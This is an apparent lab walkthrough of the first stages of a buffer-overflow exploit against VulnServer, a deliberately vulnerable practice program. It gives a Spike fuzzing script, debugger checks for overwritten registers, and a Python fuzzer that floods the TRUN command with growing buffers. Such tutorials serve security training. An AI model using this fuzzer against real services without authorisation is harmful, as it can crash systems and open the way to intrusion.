 to look for a flawed program use the command: generic_send_tcp and make a Spike script.

```
Stats.spk:
s_readline():			
s_string(STATS :):		# STATS is the command we are trying to break here. 
s_string_variable(“0”):	
```

```
# generic_send_tcp <Windows IP> <port#> stats.spk 0 0
```
Check Immunity Debugger to see when it caused an error. 
Each time an error is cause you will need to restart both VulnServer and Immunity Debugger as administrator, or you may have some issues. 
Check the EBP for 41414141 meaning it over wrote it will A’s to verify we can buffer overflow. You may also see that you over wrote the ESP and EIP. 


If you look at the EAX register ASCII you will notice 
```
EAX 0102F1E8 ASCII TRUN /.:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

This tells us that when we Fuzz the program we will have to use 
```
TRUN /.:/
```

## Fuzzing: 

#### Kali Linux: 

create python script fuzz.py

```
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = 'A' * 100

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    # change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + buffer))                     # change TRUN to be the command you are Fuzzing
            s.close()
            sleep(1)
            buffer = buffer + "A"*100

    except: 
            print "Fuzzing crashed at %s bytes" % str(len(buffer))
            sys.exit()
```
